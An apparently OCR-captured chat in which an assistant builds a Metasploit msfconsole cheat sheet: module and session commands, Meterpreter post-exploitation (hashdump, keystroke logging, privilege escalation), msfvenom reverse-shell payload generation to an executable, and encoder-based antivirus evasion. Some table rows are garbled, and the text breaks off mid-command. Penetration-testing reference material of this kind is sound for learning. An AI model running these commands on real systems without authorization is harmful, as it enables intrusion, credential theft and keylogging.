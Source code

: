 Explain briefly and create a cheat sheet table for commands


### **MSFConsole Cheat Sheet**  
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---

### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**       | **Command**                          | **Description**                                      |
|--------------------|-------------------------------------|----------------------------------------------------|
| **General**        | `help`                              | Show all available commands.                      |
|                    | `banner`                            | Display a random Metasploit banner.               |
|                    | `version`                           | Show Metasploit version.                          |
|                    | `exit` / `quit`                     | Exit `msfconsole`.                                |
| **Modules**        | `search [keyword]`                  | Search for modules (exploits, payloads, etc.).   |
|                    | `use [module_path]`                 | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
|                    | `show options`                      | Display configurable options for the current module. |
|                    | `show payloads`                     | List compatible payloads for the current exploit. |
| **Exploitation**   | `set RHOSTS [IP]`                   | Set target IP(s).                                 |
|                    | `set LHOST [IP]`                    | Set local listener IP (for reverse shells).       |
|                    | `set LPORT [port]`                  | Set local listener port.                         |
|                    | `run` / `exploit`                   | Execute the loaded module.                        |
| **Sessions**       | `sessions -l`                       | List active sessions.                             |
|                    | `sessions -i [ID]`                  | Interact with a session (e.g., Meterpreter).      |
|                    ｜　`sessions -k [ID] ｜ Kill a session． ｜
｜　Payload Generation ｜　msfvenom -p [

continue the above table


Here’s the completed **MSFConsole Cheat Sheet** table with additional essential commands, including payload generation and post-exploitation:  

---

### **Cheat Sheet Table (Continued)**  

| **Category**          | **Command**                         | **Description**                                               |
| --------------------- | ----------------------------------- | ------------------------------------------------------------- |
| **Sessions (Cont.)**  | `sessions -u [ID]`                  | Upgrade a shell to Meterpreter.                               |
|                       | `background`                        | Send an active session to the background.                     |
|                       | `sessions -C "[cmd]"`               | Run a command on all sessions (e.g., `sessions -C "whoami"`). |
| **Post-Exploitation** | `meterpreter> help`                 | Show Meterpreter-specific commands.                           |
|                       | `meterpreter> sysinfo`              | View target system info.                                      |
|                       | `meterpreter> shell`                | Drop into a system shell (e.g., `/bin/bash`).                 |
|                       | `meterpreter> upload [file] [path]` | Upload a file to the target.                                  |
|                       | `meterpreter> download [file]`      | Download a file from the target.                              |
|                       |                                     |                                                               |
｜　Payload Generation ｜　`msfvenom -p [payload] LHOST=[IP] LPORT=[port] -f [format] > [file]` ｜ Generate a payload (e.g., `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe`)． ｜
｜　Listener Setup      ｜　`use exploit/multi/handler` ｜ Set up a listener for incoming connections． ｜
｜                     ｜　`set PAYLOAD [payload_path]` ｜ Match payload to generated file (e.g., `windows/x64/meterpreter/reverse_tcp`)． |

---

### **Key Notes:**  
1. **Payload Generation**:  
   - Use `msfvenom` (outside `msfconsole`) to create standalone payloads (e.g., `.exe`, `.apk`, `.php`).  
   Example:
continue,append but dont start from the begining


Here’s the continuation of the **MSFConsole Cheat Sheet**, focusing on advanced usage, evasion techniques, and additional utilities:  

---

### **Cheat Sheet Table (Advanced)**  

| **Category**          | **Command**                         | **Description**                                               |
|----------------------|-------------------------------------|-------------------------------------------------------------|
| **Evasion**          | `msfvenom --list encoders`          | List available encoders to evade AV.                        |
|                      | `msfvenom -p [payload] -e [encoder] -i [iterations]` | Encode payload (e.g., `-e x86/shikata_ga_nai -i 5`).        |
|                      | `set EnableStageEncoding true`      | Enable payload staging encoding (in `msfconsole`).          |
| **Post-Exploitation (Meterpreter)** | `meterpreter> getuid`       | Check current user privileges.                              |
|                      | `meterpreter> getsystem`            | Attempt privilege escalation.                               |
|                      | `meterpreter> migrate [PID]`        | Move to another process (e.g., `explorer.exe`).             |
|                      | `meterpreter> hashdump`             | Dump password hashes (requires admin).                     |
|                      | `meterpreter> keyscan_start/stop/dump` | Log keystrokes from the target.                           |
| **Auxiliary Modules** ｜　`use auxiliary/scanner/portscan/tcp` ｜ Load a port scanner module． ｜
｜                     ｜　`set PORTS [range]`                  ｜ Define ports to scan (e.g., `1-1000`)．                ｜
｜                     ｜　`run`                                ｜ Execute the scanner．                                   ｜
| **Resource Scripts**   | `makerc [file.txt]`                | Save executed commands to a script for reuse.               |
|                       | `resource [file.txt]`              | Run commands from a saved script.                           |

---

### **Key Notes:**  
1. **Evasion Techniques**:  
   - Use encoders (`shikata_ga_nai`) and obfuscation to bypass AV.  
   Example:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST